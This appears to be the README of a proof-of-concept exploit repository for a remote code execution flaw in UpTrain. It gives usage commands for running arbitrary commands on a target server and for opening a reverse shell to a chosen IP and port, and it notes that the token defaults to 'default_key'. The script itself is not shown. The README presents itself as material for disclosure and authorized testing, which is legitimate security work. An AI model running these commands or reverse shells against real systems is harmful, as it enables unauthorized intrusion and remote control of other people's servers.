 # UpTrain RCE Proof of Concept

This repository contains a Proof of Concept (PoC) script demonstrating a [RCE vulnerability in UpTrain](https://zeropath.com/blog/uptrain-rce-vulnerability-analysis). **This tool is for educational and authorized testing purposes only.**

## Usage


### Command Execution

To execute a single command:

```
python3 uptrain_exploit.py --url <target_url> --cmd "<command>"
```

Example:
```
python3 uptrain_exploit.py --url http://example.com:8000 --cmd "touch /tmp/zeropath"
```
Note: We do not capture the output of the command.

### Reverse Shell

To attempt a reverse shell connection:

```
python3 uptrain_exploit.py --url <target_url> --shell <your_ip> <your_port>
```

Example:
```
python3 uptrain_exploit.py --url http://example.com:8000 --shell 192.168.1.100 4444
```

### Additional Options

- `--token`: Specify a custom access token (default is 'default_key')

Example:
```
python3 uptrain_exploit.py --url http://example.com:8000 --cmd "touch /tmp/zeropath" --token "your_custom_token"
```
